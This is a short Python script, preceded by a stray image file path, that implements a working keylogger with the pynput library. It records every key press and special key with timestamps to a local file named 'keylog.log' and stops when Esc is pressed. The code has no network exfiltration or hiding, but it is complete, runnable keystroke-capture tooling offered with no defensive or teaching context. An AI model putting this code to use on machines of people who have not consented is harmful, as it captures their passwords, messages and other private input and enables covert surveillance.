 import logging
from pynput import keyboard

# Set up logging
logging.basicConfig(filename='keylog.log', level=logging.INFO, format='%(asctime)s: %(message)s')

def on_press(key):
    """Log key press"""
    try:
        logging.info(f'Key pressed: {key.char}')
    except AttributeError:
        logging.info(f'Special key pressed: {key}')

def on_release(key):
    """Stop keylogger when Esc key is pressed"""
    if key == keyboard.Key.esc:
        # Stop listener
        return False

# Create keyboard listener
listener = keyboard.Listener(on_press=on_press, on_release=on_release)

# Start listener
listener.start()
listener.join()
